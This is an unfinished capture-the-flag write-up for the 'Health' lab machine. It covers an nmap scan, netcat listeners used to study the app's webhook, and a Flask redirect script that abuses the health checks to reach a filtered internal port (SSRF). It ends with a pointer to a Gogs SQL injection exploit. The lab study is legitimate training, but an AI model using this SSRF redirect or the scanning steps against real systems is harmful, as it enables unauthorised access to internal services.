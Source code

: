 # Health (WIP)

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.71.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-09 13:13 EDT
Nmap scan report for 10.129.71.152
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp
```

### Webhook

The web application performs 'health checks' for any URL:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

For enumeration, I started 2 `nc` listeners, one on port 5555 and the other on port 4444. Then, we can create a webhook like so:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

When we click test, port 4444 gets a request first.&#x20;

```
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.71.152] 56126
GET / HTTP/1.0
Host: 10.10.14.13:4444
Connection: close
```

When we close port 4444, port 5555 gets a request as well:

{% code overflow="wrap" %}
```
$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.71.152] 58134
POST / HTTP/1.1
Host: 10.10.14.13:5555
Accept: */*
Content-type: application/json
Content-Length: 101

{"webhookUrl":"http:\/\/10.10.14.13:5555","monitoredUrl":"http:\/\/10.10.14.13:4444","health":"down"}
```
{% endcode %}

So the monitored URl is the one that is being checked, and it reports back to port 5555 about the health of the monitored URL. Interestingly, when we try to use `health.htb` as the monitored URL, there's an error saying that we cannot use that host:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

### Redirect Steal Page

This box was really similar to another box Forge, where we can set up a Python script to redirect applications to make the application visit us and be redirected to another place. The `nmap` scan picked up on port 3000 being filtered earlier, so let's try to view the page contents.

We can create a similar script using Flask and Python:

```python
from flask import Flask,redirect,request

app = Flask(__name__)

@app.route('/redir',methods=["GET"])
def hello():
    return redirect("http://127.0.0.1:3000/")

@app.route("/hook",methods=["POST"])
def hook():
    print(request.json)
    return("", 200)

if __name__ == '__main__':
    app.run(debug=True,host='10.10.14.13', port=80)
```

Using this, we can start the server and create a webhook to always run.

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

In the next minute, it would visit our `/redir` endpoint and be redirected to port 3000, which would be healthy, and then return the information to `/hook`. This only works because the application returns the entire page when the health is 'up'.&#x20;

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Gogs SQL Injection

Within the output here, we can find the version used:

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

There is one SQL Injection exploit for this:

{% embed url="https://www.exploit-db.com/exploits/35238" %}

